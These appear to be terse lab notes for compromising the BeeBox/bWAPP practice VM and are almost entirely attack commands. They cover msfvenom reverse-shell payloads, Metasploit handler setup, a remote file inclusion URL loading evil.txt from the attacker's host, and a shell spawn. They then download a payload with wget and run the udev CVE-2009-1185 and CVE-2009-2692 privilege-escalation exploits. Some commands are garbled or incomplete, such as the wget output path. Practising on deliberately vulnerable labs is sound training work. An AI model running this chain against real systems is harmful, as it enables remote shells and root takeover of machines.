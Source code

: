BeeBox
"/multi/handler" can be used for txt file reverse shell

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.112.4 LPORT=4446 -f raw -o /var/www/html/evil.txt
msfconsole 
use exploit/multi/handler
set LPORT 4446
set LHOST 192.168.112.4
set PAYLOAD php/meterpreter_reverse_tcp
run

***Remote & Local File Inclusion (RFI/LFI)
http://192.168.1.135/bWAPP/rlfi.php?language=lang_en.php&action=go
?language=http://192.168.112.4/evil.txt

python -c 'import pty; pty.spawn("/bin/sh")'
id
whoami

On Kali:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.112.4 LPORT=5000 -f elf -o /var/www/html/run
service apache2 
msfconsole
use exploit/multi/handler
set LHOST 192.168.112.4
set LPORT 5000
set PAYLOAD linux/x86/meterpreter/reverse_tcp

On BeeBox:
wget http://192.168.112.4/run -o /tmp/cd un
gcc cve-2009-1185.c -o /tmp/privescalation
chmod +x /tmp/privescalation
cd /tmp
ps aux | grep udev
./privescalation (PID discovered with grep minus 1 - e.g. 2864 - 1 = 2863)



tar -xvf cve-2009-2692.tar
cd cve-2009-2692
sh cve-2009-2692.sh
